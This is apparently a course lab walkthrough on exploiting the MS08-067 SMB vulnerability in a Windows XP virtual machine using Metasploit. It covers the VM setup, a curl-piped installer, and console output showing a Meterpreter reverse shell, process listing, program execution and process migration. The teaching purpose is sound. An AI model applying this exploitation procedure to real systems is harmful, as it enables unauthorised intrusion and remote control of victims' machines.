





# 11. Lab: Carrying out pre-prepared attacks

## Instructions

1. Perform an attack on a Windows XP virtual machine.

## More information

## Detailed instructions

### 1. Using Metasploit

In the previous exercises, we wrote a program that overruns the stack of another program or the return address of the function and runs the `Python` command line. We can see that the program that exploits the vulnerability and the program that runs are independent of each other. Therefore, we can use a program that already knows how to exploit this vulnerability and we only give it the program we want to run. Also, such a program itself can search for and exploit known vulnerabilities. One such program is [Metasploit](https://en.wikipedia.org/wiki/Metasploit), which can be obtained [here](https://github.com/rapid7/metasploit-framework).

Our goal will be to break into a virtual computer with the Windows XP operating system located on the `muha.vmdk` virtual disk that you get [here](https://polz.si/dsrf/muha.vmdk).

With `VirtualBox` we create a new virtual computer with the virtual disk `muha.vmdk` by pressing the `New` button. In the `Name and Operating System` tab, enter any name of the virtual computer in the `Name:` field, for example `WindowsXP`.

In the `Hardware` tab, change the number of processors under `Processors` to 2.

In the `Hard Disk` tab, select the `Use an Existing Virtual Hard Disk File` option, which is selected by clicking on the button with the yellow folder and green arrow, where we add the virtual disk `muha.vmdk` by pressing the `Add` button and then selecting it by pressing the `Choose` button.

Confirm the selected settings by pressing the `Finish` button and thus create a virtual computer. To successfully run the Windows XP operating system, we need to change the settings by clicking the `Settings` button in the details of the virtual machine. In the `System` tab, set the `Chipset:` setting to `PXII3` and the `Extended Features:` setting to `Enable I/O APIC`.

In the `Storage` tab, click on the `IDE` disk controller `muha.vmdk` and set `Type:` to `PXII3`.

In the `Network` tab, select the `NAT Network` option for the `Attached to:` setting. If we haven't created a `NAT Network` yet, click on the `Tools` icon above the virtual computers and then on the icon with three lines, where we select the `Network` menu. Here we now select the `NAT Networks` tab and press the `Create` button above.

In the `Network` tab, click on the `Advanced` button to open additional settings, where under `Adapter Type` we select the `PCnet-FAST III (Am79c973)` value, which represents the network card that Windows XP supports by default.

Let's make sure that our `Debian` virtual machine is also in the same `NAT Network`. We run both virtual machines, `Windows XP` and `Debian` at the same time, and check their IP addresses. On `Debian` this can be done with the `ip a` command, and on `Windows XP` with `ipconfig`. Now let's check the connectivity between them with the `ping` command. From `Windows XP` we can see `Debian` over the network, but the reverse is not true. Therefore, on `Windows XP`, we turn off the firewall by clicking on the `Start` menu, then `Control Panel` and `Security Center` and below on `Windows Firewall`. In the pop-up window, select the `Off` option and press the `OK` button. Now `Debian` can see `Windows XP` over the network.

Now let's install Metasploit according to the recommended procedure using the command [`curl`](https://www.man7.org/linux/man-pages/man1/curl.1.html).

    apt update
    apt install curl

    curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall

Start Metasploit with `msfconsole` command and wait for it to start. The `help` command shows us how to use Metasploit. With the `set RHOSTS` command, we set the IP address of the computer we want to attack.

    msfconsole

    set RHOSTS 10.0.2.4

We will exploit the vulnerability [CVE-2008-4250](https://www.cvedetails.com/cve/CVE-2008-4250/) by searching for a suitable attack using the `search` command, checking if the computer is vulnerable using the command `rcheck` and then we execute the attack with the command `exploit`.

    msf6 > search ms08-067

    Matching Modules
    ================

        #  Name                                 Disclosure Date  Rank   Check  Description
        -  ----                                 ---------------  ----   -----  -----------
        0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption

    Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/ms08_067_netapi

    msf6 > use 0
    [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/ms08_067_netapi) > rcheck
    [*] Reloading module...
    [+] 10.0.2.4:445 - The target is vulnerable.
    msf6 exploit(windows/smb/ms08_067_netapi) > exploit

    [*] Started reverse TCP handler on 10.0.2.15:4444 
    [*] 10.0.2.4:445 - Automatically detecting the target...
    [*] 10.0.2.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
    [*] 10.0.2.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
    [*] 10.0.2.4:445 - Attempting to trigger the vulnerability...
    [*] Sending stage (175686 bytes) to 10.0.2.4
    [*] Meterpreter session 1 opened (10.0.2.15:4444 -> 10.0.2.4:1049) at 2023-05-09 14:36:39 +0200

    meterpreter > 

We are now connected to the `WindowsXP` virtual computer using the command line. The `ps` command can be used to list all processes currently running on the system.

    meterpreter > ps

    Process List
    ============

    PID   PPID  Name              Arch  Session  User                         Path
    ---   ----  ----              ----  -------  ----                         ----
    0     0     [System Process]
    4     0     System            x86   0        NT AUTHORITY\SYSTEM
    176   984   wuauclt.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wuauclt.
                                                                            exe
    508   4     smss.exe          x86   0        NT AUTHORITY\SYSTEM          \SystemRoot\System32\smss.ex
                                                                            e
    572   508   csrss.exe         x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\csrs
                                                                            s.exe
    596   508   winlogon.exe      x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\winl
                                                                            ogon.exe
    640   596   services.exe      x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\services
                                                                            .exe
    652   596   lsass.exe         x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\lsass.ex
                                                                            e
    824   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\svchost.
                                                                            exe
    888   640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    984   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\System32\svchost.
                                                                            exe
    1068  640   alg.exe           x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\System32\alg.exe
    1080  640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    1184  640   svchost.exe       x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\system32\svchost.
                                                                            exe
    1344  640   spoolsv.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\spoolsv.
                                                                            exe
    1548  1604  cmd.exe           x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\cmd.exe
    1560  984   wscntfy.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wscntfy.
                                                                            exe
    1604  1528  explorer.exe      x86   0        WORKGROU-8E8989\user         C:\WINDOWS\Explorer.EXE

Now we can run any program with the `execute` command and stop it with the `kill` command. Our program does not run on the screen but in the background, since we do not run it as the current user. Therefore, we need to move to a program that is already running, owned by the current user with the command `migrate` and then with the command `execute` we can run the program on the screen.

    meterpreter > execute -f mspaint.exe
    Process 1456 created.
    meterpreter > ps

    Process List
    ============

    PID   PPID  Name              Arch  Session  User                         Path
    ---   ----  ----              ----  -------  ----                         ----
    0     0     [System Process]
    4     0     System            x86   0        NT AUTHORITY\SYSTEM
    176   984   wuauclt.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wuauclt.
                                                                            exe
    508   4     smss.exe          x86   0        NT AUTHORITY\SYSTEM          \SystemRoot\System32\smss.ex
                                                                            e
    572   508   csrss.exe         x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\csrs
                                                                            s.exe
    596   508   winlogon.exe      x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\winl
                                                                            ogon.exe
    640   596   services.exe      x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\services
                                                                            .exe
    652   596   lsass.exe         x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\lsass.ex
                                                                            e
    824   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\svchost.
                                                                            exe
    888   640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    984   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\System32\svchost.
                                                                            exe
    1068  640   alg.exe           x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\System32\alg.exe
    1080  640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    1184  640   svchost.exe       x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\system32\svchost.
                                                                            exe
    1344  640   spoolsv.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\spoolsv.
                                                                            exe
    1456  984   mspaint.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\System32\mspaint.
                                                                            exe
    1504  640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\svchost.
                                                                            exe
    1548  1604  cmd.exe           x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\cmd.exe
    1560  984   wscntfy.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wscntfy.
                                                                            exe
    1604  1528  explorer.exe      x86   0        WORKGROU-8E8989\user         C:\WINDOWS\Explorer.EXE

    meterpreter > kill 1456
    Killing: 1456
    meterpreter > ps

    Process List
    ============

    PID   PPID  Name              Arch  Session  User                         Path
    ---   ----  ----              ----  -------  ----                         ----
    0     0     [System Process]
    4     0     System            x86   0        NT AUTHORITY\SYSTEM
    176   984   wuauclt.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wuauclt.
                                                                            exe
    508   4     smss.exe          x86   0        NT AUTHORITY\SYSTEM          \SystemRoot\System32\smss.ex
                                                                            e
    572   508   csrss.exe         x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\csrs
                                                                            s.exe
    596   508   winlogon.exe      x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\winl
                                                                            ogon.exe
    640   596   services.exe      x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\services
                                                                            .exe
    652   596   lsass.exe         x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\lsass.ex
                                                                            e
    824   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\svchost.
                                                                            exe
    888   640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    984   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\System32\svchost.
                                                                            exe
    1068  640   alg.exe           x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\System32\alg.exe
    1080  640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    1184  640   svchost.exe       x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\system32\svchost.
                                                                            exe
    1344  640   spoolsv.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\spoolsv.
                                                                            exe
    1504  640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\svchost.
                                                                            exe
    1548  1604  cmd.exe           x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\cmd.exe
    1560  984   wscntfy.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wscntfy.
                                                                            exe
    1604  1528  explorer.exe      x86   0        WORKGROU-8E8989\user         C:\WINDOWS\Explorer.EXE

    meterpreter > migrate 1604
    [*] Migrating from 984 to 1604...
    [*] Migration completed successfully.
    meterpreter > execute -f mspaint.exe
    Process 1752 created.
